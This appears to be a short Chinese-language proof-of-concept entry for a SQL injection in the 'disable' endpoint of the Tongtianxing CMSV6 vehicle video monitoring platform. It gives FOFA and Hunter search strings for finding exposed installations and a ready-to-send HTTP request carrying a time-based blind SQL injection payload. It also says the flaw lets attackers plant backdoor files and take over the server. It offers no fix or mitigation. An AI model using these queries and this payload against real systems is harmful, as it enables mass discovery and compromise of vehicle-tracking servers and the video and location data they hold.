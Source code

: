 # 通天星CMSV6车载视频监控平台disable存在SQL注入

通天星CMSV6车载定位监控平台拥有以位置服务、无线3G/4G视频传输、云存储服务为核心的研发团队，专注于为定位、无线视频终端产品提供平台服务，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。其`disable`存在SQL注入，恶意攻击者利用此漏洞向服务器写入恶意的后门文件，从而获取服务器权限。

## fofa

```yaml
body="/808gps"
```

## Hunter

```yaml
web.body="/808gps"
```

## poc

```yaml
GET /edu_security_officer/disable;downloadLogger.action?ids=1+AND+%28SELECT+2688+FROM+%28SELECT%28SLEEP%285%29%29%29kOIi%29 HTTP/1.1
Host:
```

![image-20240721160542472](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407211605563.png)